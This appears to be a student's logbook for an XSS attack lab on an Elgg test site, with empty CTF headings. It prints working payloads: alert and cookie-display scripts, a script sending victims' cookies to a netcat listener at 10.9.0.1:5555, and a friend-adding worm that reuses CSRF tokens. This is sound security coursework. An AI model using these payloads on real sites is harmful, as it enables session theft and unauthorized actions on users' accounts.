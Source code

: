 This logbook is divided into 2 sections, one referring to the CTF - week 10, and another concerning the tasks for week 10.

# CTF - Week 10

## Challenge 1
<!---
![challenge1](LOGBOOK_screenshots/LOGBOOK10/challenge1.png)
-->

## Challenge 2

<!---
![challenge2](LOGBOOK_screenshots/LOGBOOK10/challenge2.png)
-->
____
____

# Cross-Site Scripting (XSS) Attack Lab

## Task 1: Posting a Malicious Message to Display an Alert Window

During this task, we needed to embed a JavaScript program in a profile, such that when another user viewed its profile, an alert window would appear. We chose Alice's Profile. For that we clicked on the option to edit the profile and in the brief description, we added the following code:
```js
<script>
    alert("XSS");
</script> 
```
After that, from another user's profile, when clicking on Alice's profile we would see a pop-up window with the message *XSS*, as we can see in the picture below:

![task1](LOGBOOK_screenshots/LOGBOOK10/task1.png)

## Task 2: Posting a Malicious Message to Display Cookies

The goal for this task was to embed a JavaScript program in a profile, such that when the user viewed their own profile, an alert window would appear with the user's cookies. For that we changed the code inserted in the brief description to:

```js
<script>
    alert(document.cookie);
</script>
```

After that, logged into Alice profile, on her profile page, we would see a pop-up window with the message with the cookies, as we can see in the picture below:

![task2](LOGBOOK_screenshots/LOGBOOK10/task2.png)

##  Task 3: Stealing Cookies from the Victim's Machine

In this task, the goal was to use the JavaScript code to send cookies to another profile. In this case, Alice was the attacker and she would be able to see other's cookies. For that, we changed the code in the brief description to:
```js
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```
We can see the result when we used the *netcat* program in the picture below:

![task3](LOGBOOK_screenshots/LOGBOOK10/task3.png)


## Task 4: Becoming the Victim's Friend

The goal for task 4 was to perform an attack that would write an XSS worm that added Samy as a friend to any other user that would visit Samy's page. For that, we started by seeing what happened when a friend request was sent.

![task4_1](LOGBOOK_screenshots/LOGBOOK10/task4_1.png)

We concluded that the friend id, the variables *__elgg_ts* and *__elgg_token* and the cookies were sent to the server in every friend request. 

Then, it was needed to add in the *"About Me"* field (using Edit HTML option), the JavaScript program to send out the HTTP request to add a friend.

```js
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the HTTP request to add Samy as a friend.
  var sendurl= "http://www.seed-server.com/action/friends/add" + "?friend=59" + token + ts;
  
  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
</script>
```
After that, we checked that in other users' profiles we were able to add Sam as friend only by seeing his profile.

![task4_2](LOGBOOK_screenshots/LOGBOOK10/task4_2.png)

#### **Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?**
#### **Question 2:  If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?**